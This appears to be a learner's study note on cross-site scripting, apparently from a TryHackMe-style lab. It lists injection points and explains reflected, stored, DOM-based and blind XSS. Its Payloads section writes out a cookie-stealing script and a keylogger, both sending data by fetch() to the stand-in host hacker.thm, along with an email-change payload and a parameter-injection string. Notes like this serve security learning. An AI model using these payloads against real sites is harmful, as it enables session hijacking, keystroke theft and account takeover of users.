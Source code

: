 
				Attack Vectors

-- Customizable Themes & Profiles via CSS
-- Event or meeting names
-- URI based
-- Imported from a 3rd party (think Facebook integration)
-- JSON POST Values (check returning content type)
-- File Upload names
-- Uploaded files (swf, HTML, ++)
-- Custom Error pages
-- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
-- Login and Forgot password forms

				Reflected XSS
-- supplied data in an HTTP request is included in the webpage source without any validation.	

-- Parameters in the URL Query String
-- URL File Path
-- Sometimes HTTP Headers


				Stored XSS
				
-- the XSS payload is stored on the web application and then gets run when other users visit the site or web page.

-- Comments on a blog
-- User profile information  
-- Website Listings

				Dom Based XSS
		
--JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code.

-- Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.
				
				Blind XSS
				
-- your payload gets stored on the website for another user to view, but you can't see the payload working or be able to test it against yourself first.

-- xsshunter

				Payloads

-- Session Stealing
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
-- Key logger 
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
-- Business Logic
<script>user.changeEmail('attacker@hacker.thm');</script>

				Beef Framwork
